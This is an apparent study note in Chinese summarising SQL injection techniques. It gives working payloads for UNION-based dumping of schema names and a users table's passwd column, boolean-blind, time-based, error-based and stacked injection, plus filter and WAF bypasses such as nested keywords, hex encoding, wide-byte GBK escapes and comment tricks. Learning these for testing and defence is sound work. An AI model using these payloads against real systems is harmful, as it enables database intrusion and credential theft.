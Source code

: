 # <center> SQL Injection
---
根据网站功能，猜测可能的SQL语句
SELECT col_name(…) FROM table_name WHERE id = {}       /*数字型*/
SELECT col_name(…) FROM table_name WHERE id = '{}'     /*字符型*/

### 判断数字型 / 字符型
1. 传入id=1: 正常页面
2. 再传入id=2-1 
- 如果是数字型，语句应该变为：
```sql
SELECT col_name(…) FROM table_name WHERE id = 2-1 
```
等价于：
```sql
SELECT col_name(…) FROM table_name WHERE id = 1 
```
那么就应该能正常返回id=1的页面

- 如果是字符型，语句应该变为：
```sql
SELECT col_name(…) FROM table_name WHERE id = '2-1'
```
会因为查询不到内容

### 字符型 -> 判断引号类型
有报错回显
| payload  |  单引号 |双引号|
|---|---|---|
|  id=' |  ''' 报错 |"'"|
|  id="  |  '"' |""" 报错|

无报错回显
|  payload | 单引号  |双引号|
|---|---|---|
|  id=adm''in | user found  |not found|



## 有回显
UNION SELECT

联合查询前后的列数必须一致，需要判断原SQL查询的列数
```
id=1' ORDER BY M#
id=1' UNION SELECT 1, 2,...#
```
获取基本信息
```
id=' UNION SELECT DATABASE(), USER(),...
```
获取更多信息

在MySQL中，所有的数据库名存放在information_schema.schemata的schema_name字段下
```sql
SELECT schema_name FROM information_schema.schemata;
```
所有的表名存放在information_schema.tables的table_name字段下，可以以table_schema为条件筛选
```sql
SELECT table_name FROM information_schema.tables WHERE table_schema='db_name';
```
所有的列名存放在information_schema.columns的column_name字段下，可以以table_schema和table_name为条件筛选
```sql
SELECT column_name FROM information_schema.columns WHERE table_name='table_name' 
AND table_schema='db_name';
```

pyaload
eg.
```
id = 4 UNION SELECT group_concat(schema_name), 2, 3 FROM information_schema.schemata
```

获取到表、列名后，可以获取其他数据
eg. users表中的passwd字段
- group_concat() 合并读取
```
id = 4 UNION SELECT group_concat(passwd), 2, 3 FROM users;
```
- LIMIT分行读取
```
id = 4 UNION SELECT passwd, 2, 3 FROM users LIMIT 0, 1;
```

## 无回显

布尔盲注
- `and` / `&&` - 前面是有效id时
- `or` / `||` - 前面是无效id时

用SUBSTR()一位位取出要查找内容的字符，再用ASCII()转化为ASCII码，就能用二分法获取数据
- SUBSTR(str, pos, len)
- ASCII(char)
```
name=a' or ASCII(SUBSTR((SELECT GROUP_CONCAT(passwd) FROM users), 1, 1))>0#
```

延时注入
- IF(condition, expr1, expr2)
- SLEEP()
```
name=admin' and IF(ASCII(SUBSTR(DATABASE(), 1, 1))>0, SLEEP(0), SLEEP(2))
```

报错注入
```
name=admin' AND extractvalue(1, concat(0x7e, (SELECT ...), 0x7e)) -- - 
name=admin' AND updatexml(1,concat(0x7e,(SELECT ...),0x7e),1)-- -
```


堆叠注入
很多数据库是支持多个SQL指令在一行内执行的,但服务端语言可能不会获取多行结果

常见判断方法：
```
;select sleep(1);#
```

二次注入
攻击者先将恶意数据存入数据库，之后当应用程序使用这些数据时触发注入

## 防护 & 绕过
### 防护
- 直接拦截
- 关键字替换
- 编码转义
- 参数化查询

### 检测
- 关键字匹配(直接查找/正则)
- 语义匹配

### 绕过

针对关键字/正则匹配
- 大小写
- 利用等价命令 比如 OR->||, SPACE->/**/, ORDER BY->GROUP BY …
- 如果只是单纯删去关键字，且只删一次，可以嵌套绕过，比如UNION是关键字会被删除，
那么传入UNUNIONION就会被删成UNION，从而注入
- 绕过引号
```sql
-- hex 编码
SELECT * FROM Users WHERE username = 0x61646D696E
-- char() 函数
SELECT * FROM Users WHERE username = CHAR(97, 100, 109, 105, 110)
```
宽字节注入：
如果数据库使用的是GBK编码，而服务端只采用addslashes()方法进行转义，可能造成逃逸。比如addslashes("%df'")="%df\'" 传给SQL服务器时十六进制编码为 df 5c 27  
而在GBK编码下，df 5c是汉字運的编码，最后这段字符会被数据库理解为運'，导致转义失效，单引号逃逸

- 字符串拼接
```sql
SELECT 'a' 'd' 'mi' 'n';
SELECT CONCAT('a', 'd', 'm', 'i', 'n');
SELECT CONCAT_WS('', 'a', 'd', 'm', 'i', 'n');
SELECT GROUP_CONCAT('a', 'd', 'm', 'i', 'n');
```


针对语义匹配
相对难度较大，只能利用语言特性把语义检测绕晕。常见办法是嵌套注释符让其以为全部内
容都被注释了。 
e.g. 
```
id = 1/*#*/union select 1, 2, 3
id = 1 and "/*"="" union select 1, 2, 3#*/
```